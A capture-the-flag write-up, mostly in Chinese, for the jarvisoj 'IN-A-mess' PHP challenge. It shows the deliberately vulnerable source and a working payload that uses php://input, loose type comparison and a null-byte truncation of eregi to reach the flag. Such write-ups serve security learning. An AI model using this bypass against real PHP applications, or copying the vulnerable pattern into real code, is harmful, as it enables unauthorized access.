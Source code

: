 # Challenge
```php
<?php
error_reporting(0);
echo "<!--index.phps-->";
if(!$_GET['id'])
{
	header('Location: index.php?id=1');
	exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.'))
{
	echo 'Hahahahahaha';
	return ;
}
$data = @file_get_contents($a,'r');
if($data=="1112 is a nice lab!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and substr($b,0,1)!=4)
{
	require("flag.txt");
}
else
{
	print "work harder!harder!harder!";
}
?>
```

# Solution
php弱类型绕过。当`$a`为php://input，`$data`可以通过php://input来接受post数据。

`$id`传一个字符进去，满足`!$_GET['id']`为假。与数字进行比较时会被转换为0，满足`$id==0`。

对`$b`，要求长度大于5，其次要求满足`eregi`的要求和首字母不为4。可以设置`$b`为`%00111111`，这样，substr（）会发生截断，在匹配时时进行eregi("111","1114")满足，同时%00对strlen不会发生截断。

payload:
```
?id=a&a=php://input&b=%0011111

POST:
1112 is a nice lab!
```

# Refference 
+ [jarvisoj : IN-A-mess](http://web.jarvisoj.com:32780/index.php?id=1)
+ [chybeta : IN-A-mess](https://chybeta.github.io/2017/07/05/jarvisoj-web-writeup/#IN-A-mess)